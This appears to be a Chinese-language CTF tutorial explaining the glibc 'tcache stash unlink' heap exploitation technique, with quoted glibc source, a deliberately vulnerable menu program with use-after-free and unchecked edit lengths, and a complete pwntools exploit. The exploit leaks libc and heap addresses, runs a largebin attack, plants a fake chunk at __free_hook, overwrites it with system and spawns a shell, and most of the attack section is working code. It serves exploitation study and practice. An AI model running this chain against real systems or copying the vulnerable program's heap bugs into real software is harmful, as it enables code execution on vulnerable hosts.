


# tcache stash unlink


## 1.基本原理

适用条件：要同时有 malloc 和 calloc，同时该方法也是house of pig的一个前置利用手法

从 small bin 中取出 chunk 时会对该 chunk 的 bk 指向的 chunk 的 fd 进行检查：

```c
if (in_smallbin_range (nb))
{
  idx = smallbin_index (nb);
  bin = bin_at (av, idx);

  if ((victim = last (bin)) != bin)
    {
      bck = victim->bk;
  if (__glibc_unlikely (bck->fd != victim))
    malloc_printerr ("malloc(): smallbin double linked list corrupted");
      set_inuse_bit_at_offset (victim, nb);
      bin->bk = bck;
      bck->fd = bin;
```

但是最后将 small bin 中剩余 chunk 放入 tcache 直到 tcache 填满的过程却不会进行检查：

```c
#if USE_TCACHE
      /* While we're here, if we see other chunks of the same size,
     stash them in the tcache.  */
      size_t tc_idx = csize2tidx (nb);
      if (tcache && tc_idx < mp_.tcache_bins)
    {
      mchunkptr tc_victim;

      /* While bin not empty and tcache not full, copy chunks.  */
      while (tcache->counts[tc_idx] < mp_.tcache_count
         && (tc_victim = *fb) != NULL)
        {
          if (SINGLE_THREAD_P)
        *fb = tc_victim->fd;
          else
        {
          REMOVE_FB (fb, pp, tc_victim);
          if (__glibc_unlikely (tc_victim == NULL))
            break;
        }
          tcache_put (tc_victim, tc_idx);
        }
    }
#endif
```

那么我们就可以将smallbin的一个fd或bk指针指向我们要申请的内存，经过一个calloc之后，由于stash机制，smallbin中剩下的chunk会放入对应的tcache中将其填满，此时若fack chunk放入了tcache中，我们就可以将其申请出来，最终效果是任意地址 malloc 和任意地址写某个（些）值



## 2.利用

源码：（增加了一个calloc的选项）

```
#include<stdlib.h>
#include <stdio.h>
#include <unistd.h>

char* chunklist[100];

void menu() {
    puts("1. add chunk");
    puts("2. delete chunk");
    puts("3. edit chunk");
    puts("4. show chunk");
    puts("5. exit");
    puts("choice:");
}

int get_num(){
    char buf[0x10];
    read(0, buf, sizeof(buf));
    return atoi(buf);
}

void add_chunk(){
    puts("index:");
    int index = get_num();
    puts("size:");
    int size = get_num();
    puts("type:");
    int type = get_num();
    chunklist[index] = type == 1 ? calloc(1, size) : malloc(size);
}

void delete_chunk(){
    puts("index:");
    int index = get_num();
    free(chunklist[index]);
}

void edit_chunk(){
    puts("index:");
    int index = get_num();
    puts("length:");
    int length = get_num();
    puts("content:");
    read(0, chunklist[index], length);
}

void show_chunk(){
    puts("index:");
    int index = get_num();
    puts(chunklist[index]);
}

int main(){
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
    while (1) {
        menu();
        switch (get_num()) {
            case 1:
                add_chunk();
                break;
            case 2:
                delete_chunk();
                break;
            case 3:
                edit_chunk();
                break;
            case 4:
                show_chunk();
                break;
            case 5:
                exit(0);
            default:
                puts("invalid input");
        }

    }
}
```

exp：

```python
from pwn import *
# patchelf --set-interpreter new_ld_address file_path
# patchelf --replace-needed old_libc.so.6 new_libc.so.6 file_path
# pycharm # ctrl+/

# local pwn
elf_path = './tcache_stash_ublink'
elf = ELF(elf_path)
# libc = ELF('/home/ubuntu/tools/glibc-all-in-one/libs/2.27-3ubuntu1_amd64/libc-2.27.so')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
context(arch=elf.arch, os=elf.os, log_level="debug")

p = process([elf_path])

#-----------------------------------------------------------------------------------------
it      = lambda                    :p.interactive()
sd      = lambda data               :p.send((data))
sa     	= lambda delim,data         :p.sendafter((delim), (data))
sl      = lambda data               :p.sendline((data))
sla     = lambda delim,data         :p.sendlineafter((delim), (data))
r       = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=False :p.recvuntil(delims, drop)
rl      = lambda                    :p.recvline()
l       = lambda str1               :log.success(str1)
li      = lambda str1,data1         :log.success(str1+' ========> '+hex(data1))
uu32    = lambda data               :u32(data.ljust(4, b"\x00"))
uu64    = lambda data               :u64(data.ljust(8, b"\x00"))
u32Leakbase = lambda offset         :u32(ru(b"\xf7")[-4:]) - offset
u64Leakbase = lambda offset         :u64(ru(b"\x7f")[-6:].ljust(8, b"\x00")) - offset
#-----------------------------------------------------------------------------------------

def add_chunk(index, size, type=0):
    sla(b"choice:\n", b"1")
    sla(b"index:\n", str(index).encode())
    sla(b"size:\n", str(size).encode())
    sla(b"type:\n", str(type).encode())


def delete_chunk(index):
    sla(b"choice:\n", b"2")
    sla(b"index:\n", str(index).encode())

def edit_chunk(index, content):
    sla(b"choice:\n", b"3")
    sla(b"index:\n", str(index).encode())
    sla(b"length:\n", str(len(content)).encode())
    sa(b"content:\n", content)

def show_chunk(index):
    sla(b"choice:\n", b"4")
    sla(b"index:\n", str(index).encode())

def exit_p():
    sla(b"choice:\n", b"5")

# leak libc
add_chunk(0, 0x420)
add_chunk(1, 0x10)
add_chunk(2, 0x410)
add_chunk(3, 0x10)
delete_chunk(0)
show_chunk(0)
libc.address = u64Leakbase(0x1ecbe0)
li("libc addr:", libc.address)

# largebin attack2
add_chunk(20, 0x500)
edit_chunk(0, p64(0)*3 + p64(libc.sym['__free_hook']-0x18))
delete_chunk(2)
add_chunk(20, 0x500)
show_chunk(0)
heap_addr = u64(ru([b"\x55", b"\x56"])[-6:].ljust(8, b"\x00")) - 0x6e0
li("heap_addr:", heap_addr)

# fix largebin
edit_chunk(0, p64(heap_addr+0x6e0)+p64(libc.address+0x1ecfd0)+p64(heap_addr+0x6e0)+p64(heap_addr+0x6e0))
edit_chunk(2, p64(libc.address+0x1ecfd0)+p64(heap_addr+0x290)+p64(heap_addr+0x290)+p64(heap_addr+0x290))
add_chunk(0, 0x420)
add_chunk(0, 0x410)

# tcache stash unlink
for i in range(1, 8):
    add_chunk(i, 0x100)
add_chunk(8, 0x100)
add_chunk(20, 0x10)
add_chunk(9, 0x100)
add_chunk(20, 0x10)
for i in range(7, 0, -1):
    delete_chunk(i)
delete_chunk(9)
delete_chunk(8)
add_chunk(20, 0x200)

edit_chunk(8, p64(heap_addr+0x1de0)+p64(libc.sym['__free_hook']-0x10))
add_chunk(1, 0x100)
add_chunk(1, 0x100)
add_chunk(20, 0x100, 1)

# get chunk and get shell
add_chunk(0, 0x100)
edit_chunk(0, p64(libc.sym['system']))
edit_chunk(1, b'/bin/sh\x00')
delete_chunk(1)
it()
```

注意：

* fack1 chunk 的 **bk 要指向可读写内存**，否则 fack2 chunk 的 fd 无法指向 small bin，就会造成访存错误
* 手法利用之前，利用largebin attack2构造fakechunk，构造完成后需要手动计算并修复原本largebin中的堆块，以防对后面利用造成影响：



